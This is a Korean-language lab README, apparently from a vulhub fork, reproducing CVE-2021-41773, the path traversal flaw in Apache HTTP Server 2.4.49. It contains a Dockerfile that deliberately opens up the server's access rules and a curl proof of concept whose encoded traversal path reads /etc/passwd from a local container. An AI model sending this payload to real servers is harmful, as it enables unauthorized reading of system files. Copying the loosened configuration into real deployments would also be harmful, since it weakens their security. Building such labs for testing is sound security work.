

# Apache HTTP Server 2.4.49 경로 탐색 및 원격 코드 실행 취약점 (CVE-2021-41773)

Apache HTTP Server 프로젝트는 UNIX 및 Windows 등 다양한 운영체제를 지원하는 오픈소스 웹 서버를 개발 및 유지하는 프로젝트입니다.

Apache HTTP Server 2.4.49 버전에서는 **경로 정규화(Path Normalization)** 처리 과정의 결함으로 인해, 공격자가 URL 요청을 조작하여 문서 루트(DocumentRoot) 외부의 파일에 접근할 수 있는 **경로 탐색(Path Traversal)** 취약점이 발견되었습니다.

만약 서버가 기본 설정인 `Require all denied` 로 외부 파일 접근을 차단하고 있지 않다면, 이 취약점을 통해 공격자는 서버 파일을 읽을 수 있습니다.

---


## 취약 환경 구축
Dockerfile 작성
```
FROM httpd:2.4.49

RUN sed -i 's/AllowOverride none/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/AllowOverride None/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf
```
- AllowOverride none → AllowOverride All  
.htaccess 파일을 통한 설정 재정의를 허용합니다.
- Require all denied → Require all granted  
기본적으로 모든 요청을 거부하는 대신, 모든 요청을 허용하게 변경합니다.
- AllowOverride None → AllowOverride All  
추가적으로 필요한 경로에서도 .htaccess 기반 설정 변경을 허용합니다.
이 설정 변경을 통해 원래 차단되어야 하는 /etc/passwd 같은 파일도 제한 없이 접근 가능하게 됩니다.

아래 명령어를 사용하여 취약한 Apache 서버 환경을 구성할 수 있습니다.

```bash
docker build -t apache-cve-2021-41773 .
```


```bash
docker run -d -p 8080:80 --name apache-41773 apache-cve-2021-41773
```


## 취약점 공격 재현 (PoC)
```bash
curl -v http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
/etc/passwd 파일 내용을 성공적으로 읽어올 수 있습니다.



## Repository
https://github.com/5asever/vulhub/edit/master/httpd/CVE-2021-41773    

## commit 이력
https://github.com/5asever/vulhub/commits/master/    

## pull reqeusts
https://github.com/vulhub/vulhub/pull/688    
